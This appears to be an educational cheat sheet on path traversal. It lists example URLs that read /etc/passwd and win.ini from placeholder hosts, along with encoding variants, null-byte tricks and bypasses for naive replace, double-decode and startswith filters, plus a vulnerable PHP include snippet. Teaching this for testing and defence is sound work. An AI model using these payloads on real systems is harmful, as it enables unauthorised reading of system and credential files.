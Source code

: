 # Path Traversal

A **Path Traversal** vulnerability allows you to view the contents of files outside of the web server root directory. 

**Local File Inclusion** vulnerabilties usually involve Path Traversal techniques. This document is specifically about those traversal techniques and not LFI in general.

The impact is usually **Information Disclosure** (e.g. usernames, passwords, keys, source code). But it can also lead to exploit chains resulting in code execution (RCE) if the included file gets executed (e.g. an included script file or poisoned log file) by an interpreter like PHP.


### Vanilla example

For example a web application might serve files based on an HTTP GET url parameter:

```default
http://server.example/index.php?image=cats.jpg
http://server.example/index.php?image=dogs.jpg
http://server.example/index.php?image=boats.png
```

The developers intended this functionality to only serve files from a dedicated web server directory, e.g.: `/var/www/html/animalpics/`

If the file loading functionality is implemented naively then a user might able to input **absolute paths** instead:

```default
http://server.example/index.php?image=/etc/passwd
```

Which loads an arbitrary file on the server accessible by the user that executes the web server application. 

A common target and proof-of-concept is loading the `/etc/passwd` file which leaks all the usernames of local users on the server host.

If file loading functionality does not allow absolute paths, then it might allow **relative paths**:

```default
http://server.example/index.php?image=../../../../../../etc/passwd
```

This would navigate six or less directories up from the current working directory (e.g. `/var/www/html/`) until it reaches the root directory (`/`) and from there accesses the same file `/etc/passwd`.

Depending on the current working directory of the server application more `../` might be required for this work. 

In rare cases the number of `../` must be exact, so in the case of `/var/www/html/` you would have to be navigate exactly three directories up.


## Url-Encoding Reference

Encoding and double encoding:

```default
../
%2e%2e%2f
%2e%2e/
..%2f
..%c0%af
```

Windows backslash style:

```default
..\
%2e%2e%5c
%2e%2e\
..%5c
%252e%252e%255c
..%255c
..%c1%9c
```

Note: If you manually input a backslash (`\`) in a web browser url bar then it will usually replace it with a regular slash (`/`) unless you url-encode it first.

## Common Proof-of-Concept Examples

Linux:

```default
https://vulnerable.example/loadImage?filename=../../../../etc/passwd
```

Windows:

```default
https://vulnerable.example/loadImage?filename=..\..\..\windows\win.ini 
```

## Null Byte

Sometimes the file inclusion has hardcoded strings appended after the input. 

The most common case would be a file extension like `.jpg` or `.php` appended after the input.

For example there might be an url:

```default
http://server.example/index.php?navigation=calendar
```

Behind the scenes the server performs something like (PHP example):

```php
$input = $_GET['navigation'];
$filetarget = $input . '.php'; // input + '.php'
include($filetarget);
```

This would still allow a path traversal. But the included filename would have to end with `.php`

Often this can be circumvented by using a Null byte:

```default
http://server.example/index.php?navigation=../../../../../etc/passwd%00
```

`%00` is the url-encoded Null byte.

In many applications the ending of a string is marked by a Null byte. So the parts of the string after an inserted `%00` will be ignored.

These kinds of strings are called "C-style strings" because the C Programming Language traditionally uses Null termination. 

PHP is written in C and C++ and was vulnerable to the this trick for a long time. But this trick won't work past PHP version 5.3.4

It might still work with other server applications though.

Another use case might be a filter that ensures that included urls must end with a certain string like `.jpg`.

This could be possibly be circumvented by using:

```default
http://server.example/index.php?navigation=../../../../../etc/passwd%00.jpg
```

## Filter Bypass: Naive Replace

A naive "fix" for a path traversal vulnerability might be the use of a non-recursive `replaceAll()` type function, which removes all occurances of `../` from the input string.

This can be circumvented with:

```default
....//....//....//....//etc/passwd
```

After the replaceAll() each `....//` becomes a regular `../`

Obviously even if the replaceAll() is repeated multiple times, you could just keep multiplying the characters for each iteration. A recursive replace would defeat this though.


## Filter Bypass: Unnecessary Urldecoding

If...

* the input gets url-decoded (usually happens automatically by web server frameworks)
* a filter removes all occurances of `.` and `/` or a combination thereof
* the input gets url-decoded again unnecessarily

If that is the case then simply url-encode your `../` twice. 

```default
../
%2e%2e%2f
%25%32%65%25%32%65%25%32%66
```

The second server-side url-decode will restore the `../` past the filtering.


## Filter Bypass: startswith

Another naive "fix" for a path traversal might be a `startswith()` function that ensures the input path starts with a certain directory or does not start with `../`.

For example:

```default
?filename=/var/www/images/cats.jpg
```

And the server application rejects input that does not start with `/var/www/images/`. 

Then the bypass is:

```default
?filename=/var/www/images/../../../../../etc/passwd
```


## References

* https://owasp.org/www-community/attacks/Path_Traversal
* https://portswigger.net/web-security/file-path-traversal